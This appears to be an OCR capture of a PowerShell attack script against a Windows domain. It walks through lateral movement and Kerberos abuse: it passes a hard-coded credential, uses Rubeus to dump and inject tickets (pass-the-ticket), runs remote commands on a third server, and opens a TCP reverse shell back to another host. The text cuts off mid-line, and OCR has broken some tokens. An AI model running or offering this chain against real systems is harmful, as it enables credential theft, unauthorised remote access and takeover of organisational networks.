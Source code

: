 $servera = New-PSSession -ComputerName SERVERA.DOMAIN.LOCAL

Enter-PSSession -Session $servera

# PASS CREDENTIAL TO SERVER B

$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\alice', $SecPassword)

$serverb = New-PSSession -ComputerName SERVERB.DOMAIN.LOCAL -Credential $Cred

# LIST TICKET IN SERVER C:

Invoke-Command -ScriptBlock { & '\\10.10.10.10\c$\Users\jack\desktop\Rubeus.exe' klist} -

Session $serverb | Select-String -Pattern Username

# DUMP TICKET IN SERVER C:

Invoke-Command -ScriptBlock { & '\\10.10.10.10\c$\Users\jack\desktop\Rubeus.exe' dump

/user:targetadmin} -Session $serverb

# INJECT TICKET IN SERVER B:

Invoke-Command -ScriptBlock {& '\\10.10.10.10\c$\Users\jack\desktop\Rubeus.exe' ptt

/ticket:B64 } -Session $serverb

# CHECK INJECTION:

Invoke-Command -ScriptBlock { ls \\serverc\c$ } -Session $serverb

# RCE ON SERVER C:

Invoke-Command -ScriptBlock {Invoke-Command -ScriptBlock {hostname} -ComputerName

SERVERC.DOMAIN.LOCAL} -Session $serverb

# FINAL REVERSE SHELL IN SERVER A FROM SERVER C

Invoke-Command -ScriptBlock {Invoke-Command -ScriptBlock {$client = New-Object

System.Net.Sockets.TCPClient("servera",8080);$stream = $client.GetStream();[byte[]]$bytes =

0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (NewObject -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data

2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =
